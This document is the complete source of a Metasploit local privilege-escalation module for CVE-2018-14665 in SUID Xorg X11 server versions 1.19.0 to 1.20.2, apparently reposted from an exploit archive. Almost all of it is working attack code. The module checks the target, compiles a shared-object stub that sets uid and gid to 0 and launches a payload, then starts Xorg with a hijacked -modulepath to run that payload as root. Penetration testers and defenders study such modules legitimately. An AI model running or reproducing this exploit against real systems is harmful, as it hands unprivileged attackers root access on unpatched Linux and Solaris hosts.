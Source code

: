 # Reporting
##
# This module requires Metasploit: https://metasploit.com/download
# Current source: https://github.com/rapid7/metasploit-framework
##
 
class MetasploitModule < Msf::Exploit::Local
  Rank = GoodRanking
  include Msf::Exploit::EXE
  include Msf::Exploit::FileDropper
  include Msf::Post::File
  include Msf::Post::Linux::Priv
  include Msf::Post::Linux::Kernel
  include Msf::Post::Linux::System
 
 
  def initialize(info = {})
    super(update_info(info,
      'Name'           => 'Xorg X11 Server SUID modulepath Privilege Escalation',
      'Description'    => %q{
        This module attempts to gain root privileges with SUID Xorg X11 server
        versions 1.19.0 < 1.20.3.
 
        A permission check flaw exists for -modulepath and -logfile options when
        starting Xorg.  This allows unprivileged users that can start the server
        the ability to elevate privileges and run arbitrary code under root
        privileges.
 
        This module has been tested with CentOS 7 (1708).
        CentOS default install will require console auth for the users session.
        Xorg must have SUID permissions and may not start if running.
 
        On successful exploitation artifacts will be created consistant
        with starting Xorg.
      },
      'License'        => MSF_LICENSE,
      'Author'         =>
        [
          'Narendra Shinde', # Discovery and exploit
          'Aaron Ringo',     # Metasploit module
        ],
      'DisclosureDate' => 'Oct 25 2018',
      'References'     =>
        [
           [ 'CVE', '2018-14665' ],
           [ 'BID', '105741' ],
           [ 'EDB', '45697' ],
           [ 'EDB', '45742' ],
           [ 'EDB', '45832' ],
           [ 'URL', 'https://www.securepatterns.com/2018/10/cve-2018-14665-another-way-of.html' ]
        ],
      'Platform'       =>  %w[linux unix solaris],
      'Arch'           =>  [ARCH_X86, ARCH_X64],
      'SessionTypes'   =>  %w[shell meterpreter],
      'Targets'        =>
        [
           ['Linux x64', {
            'Platform' => 'linux',
            'Arch' => ARCH_X64 } ],
           ['Linux x86', {
            'Platform' => 'linux',
            'Arch' => ARCH_X86 } ],
           ['Solaris x86', {
            'Platform' => [ 'solaris', 'unix' ],
            'Arch' => ARCH_SPARC } ],
           ['Solaris x64', {
            'Platform' => [ 'solaris', 'unix' ],
            'Arch' => ARCH_SPARC } ],
        ],
      'DefaultTarget'  => 0))
 
     register_advanced_options(
       [
         OptString.new('WritableDir', [ true, 'A directory where we can write files', '/tmp' ]),
         OptString.new('Xdisplay', [ true, 'Display exploit will attempt to use', ':1' ]),
         OptBool.new('ConsoleLock', [ true, 'Will check for console lock under linux', true ]),
         OptString.new('sofile', [ true, 'Xorg shared object name for modulepath', 'libglx.so' ])
       ]
     )
  end
 
 
  def check
    # linux checks
    uname = cmd_exec "uname"
    if uname =~ /linux/i
      vprint_status "Running additional check for Linux"
      if datastore['ConsoleLock']
        user = cmd_exec "id -un"
        unless exist? "/var/run/console/#{user}"
          vprint_error "No console lock for #{user}"
          return CheckCode::Safe
        end
        vprint_good "Console lock for #{user}"
      end
    end
 
    # suid program check
    xorg_path = cmd_exec "command -v Xorg"
    unless xorg_path.include?("Xorg")
      vprint_error "Could not find Xorg executable"
      return CheckCode::Safe
    end
    vprint_good "Xorg path found at #{xorg_path}"
    unless setuid? xorg_path
      vprint_error "Xorg binary #{xorg_path} is not SUID"
      return CheckCode::Safe
    end
    vprint_good "Xorg binary #{xorg_path} is SUID"
 
    x_version = cmd_exec "Xorg -version"
    if x_version.include?("Release Date")
      v = Gem::Version.new(x_version.scan(/\d\.\d+\.\d+/).first)
      unless v.between?(Gem::Version.new('1.19.0'), Gem::Version.new('1.20.2'))
        vprint_error "Xorg version #{v} not supported"
        return CheckCode::Safe
      end
    elsif x_version.include?("Fatal server error")
      vprint_error "User probably does not have console auth"
      vprint_error "Below is Xorg -version output"
      vprint_error x_version
      return CheckCode::Safe
    else
      vprint_warning "Could not parse Xorg -version output"
      return CheckCode::Appears
    end
    vprint_good "Xorg version #{v} is vulnerable"
 
    # process check for /X
    proc_list = cmd_exec "ps ax"
    if proc_list.include?('/X ')
      vprint_warning('Xorg in process list')
      return CheckCode::Appears
    end
    vprint_good('Xorg does not appear to be running')
    return CheckCode::Vulnerable
  end
 
  def check_arch_and_compile(path, data)
    cpu = ''
    if target['Arch'] == ARCH_X86
      cpu = Metasm::Ia32.new
      compile_with_metasm(cpu, path, data)
    elsif target['Arch'] == ARCH_SPARC
      compile_with_gcc(path, data)
    else
      cpu = Metasm::X86_64.new
      compile_with_metasm(cpu, path, data)
    end
  end
 
  def compile_with_metasm(cpu, path, data)
    shared_obj = Metasm::ELF.compile_c(cpu, data).encode_string(:lib)
    write_file(path, shared_obj)
    register_file_for_cleanup path
 
    chmod path
  rescue
    print_status('Failed to compile with Metasm. Falling back to compiling with GCC.')
    compile_with_gcc(path, data)
  end
 
  def compile_with_gcc(path, data)
    unless has_gcc?
      fail_with Failure::BadConfig, 'gcc is not installed'
    end
    vprint_good 'gcc is installed'
 
    src_path = "#{datastore['WritableDir']}/#{Rex::Text.rand_text_alpha(6..10)}.c"
    write_file(src_path, data)
 
    gcc_cmd = "gcc -fPIC -shared -o #{path} #{src_path} -nostartfiles"
    if session.type.eql? 'shell'
      gcc_cmd = "PATH=$PATH:/usr/bin/ #{gcc_cmd}"
    end
    output = cmd_exec gcc_cmd
    register_file_for_cleanup src_path
    register_file_for_cleanup path
 
    unless output.blank?
      print_error output
      fail_with Failure::Unknown, "#{src_path} failed to compile"
    end
 
    chmod path
  end
 
  def exploit
    check_status = check
    if check_status == CheckCode::Appears
      print_warning 'Could not get version or Xorg process possibly running, may fail'
    elsif check_status ==  CheckCode::Safe
      fail_with Failure::NotVulnerable, 'Target not vulnerable'
    end
 
    if is_root?
      fail_with Failure::BadConfig, 'This session already has root privileges'
    end
 
    unless writable? datastore['WritableDir']
      fail_with Failure::BadConfig, "#{datastore['WritableDir']} is not writable"
    end
 
    print_good 'Passed all initial checks for exploit'
 
    modulepath = datastore['WritableDir']
    sofile = "#{modulepath}/#{datastore['sofile']}"
    pscript = "#{modulepath}/.session-#{rand_text_alphanumeric 5..10}"
    xdisplay = datastore['Xdisplay']
 
    stub = %Q^
extern int setuid(int);
extern int setgid(int);
extern int system(const char *__s);
 
void _init(void) __attribute__((constructor));
 
void __attribute__((constructor))  _init() {
setgid(0);
setuid(0);
system("#{pscript} &");
  }
    ^
    print_status 'Writing launcher and compiling'
    check_arch_and_compile(sofile, stub)
 
    # Uploading
    print_status 'Uploading your payload, this could take a while'
    if payload.arch.first == 'cmd'
      write_file(pscript, payload.encoded)
    else
      write_file(pscript, generate_payload_exe)
    end
    chmod pscript
    register_file_for_cleanup pscript
 
 
    # Actual exploit with cron overwrite
    print_status 'Exploiting'
    #Xorg -logfile derp -modulepath ',/tmp' :1
    xorg_cmd = "Xorg -modulepath ',#{modulepath}' #{xdisplay} & >/dev/null"
    cmd_exec xorg_cmd
    Rex.sleep 7
    cmd_exec "pkill Xorg"
    Rex.sleep 1
  end
end
 
#  0day.today [2020-01-27]  # 
